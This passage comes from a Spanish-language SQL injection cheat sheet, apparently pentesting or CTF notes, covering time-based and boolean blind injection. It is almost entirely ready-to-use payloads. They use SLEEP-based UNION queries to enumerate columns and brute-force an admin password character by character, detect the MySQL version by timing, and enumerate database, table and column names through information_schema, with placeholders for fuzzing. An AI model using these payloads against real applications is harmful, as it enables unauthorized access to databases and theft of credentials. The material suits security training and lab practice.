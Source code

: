 ```bash
# Columnas
<parametro inyectable>' UNION SELECT SLEEP(5),2 FROM information_schema.columns WHERE table_schema = '<db_name>' AND table_name  = '<table_name>' AND column_name LIKE 'user%' ; --
```
---

```bash
# Valores
 <parametro inyectable>' UNION SELECT SLEEP(5),2 FROM users WHERE  username = 'admin' and password like 'FUZZ%'; --
```
---
```
' OR IF(SUBSTRING(@@version,1,1)='8', SLEEP(5), 0); --  
```
Si la consulta tarda 5 segundos, significa que la versión de MySQL comienza con "8". Puedes usar esto para extraer datos carácter por carácter.

#### **c) Boolean Blind SQLi**

[Papper](https://medium.com/@opabravo/manually-exploit-blind-sql-injection-with-ffuf-92881a199345)

url de ejemplo: https://website.thm/checkuser?username=<parametro inyectable>

```bash
# Extraer nombre de base de datos
<parametro inyectable>' UNION SELECT 1,2,3 where database() like 'FUZZ caracteres o nombres comunes%';--
```
---

```bash
# Extraer nombre tablas
<parametro inyectable>' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = '<db_name>' and table_name like 'FUZZ%';--
```
---

```bash
# Confirmar recibiendo true o query exitosa
<parametro inyectable>' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = '<db_name>' and table_name='<table_name>';--
```
---

```bash
# Enumerar columna en tabla
<parametro inyectable>' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='<db_name>' and TABLE_NAME='<table_name>' and COLUMN_NAME like 'FUZZ%';
```
---

```bash
# Si ya encontramos la columna id, no queremos volver a enumerarla.. "and COLUMN_NAME != id" evita que volvamos a enumerar la columna id
<parametro inyectable>' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='<db_name>' and TABLE_NAME='<table_name>' and COLUMN_NAME like 'FUZZ%' and COLUMN_NAME !='id';
```
---
